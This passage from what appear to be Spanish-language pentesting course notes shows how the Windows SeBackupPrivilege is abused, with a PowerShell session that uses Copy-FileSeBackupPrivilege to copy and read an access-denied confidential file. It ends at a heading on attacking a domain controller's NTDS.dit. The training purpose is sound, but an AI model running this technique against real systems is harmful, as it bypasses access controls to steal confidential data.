 > **Nota:** Según la configuración del servidor, es posible que sea necesario generar un símbolo del sistema elevado para omitir el UAC y tener este privilegio.

---

## Copiar un archivo protegido usando el privilegio

### Escenario: no puedo hacer `cat` pero sí puedo copiar con el PoC

```powershell
dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt

cat 'C:\Confidential\2021 Contract.txt' 

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand

Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
Copied 88 bytes
cat .\Contract.txt
Inlanefreight 2021 Contract

==============================

Board of Directors:

<...SNIP...>
```

**Explicación:** `Copy-FileSeBackupPrivilege` abre el archivo protegido usando la semántica de backup (ej.: `BackupRead` / `FILE_FLAG_BACKUP_SEMANTICS`), lo lee pese a la DACL original y escribe un nuevo archivo en la ruta destino. El nuevo fichero es creado por el proceso atacante y, por defecto, su propietario será el token que realizó la copia. El ownership y las ACL del archivo original no se modifican.

---

## Atacar un Domain Controller — objetivo: NTDS.dit

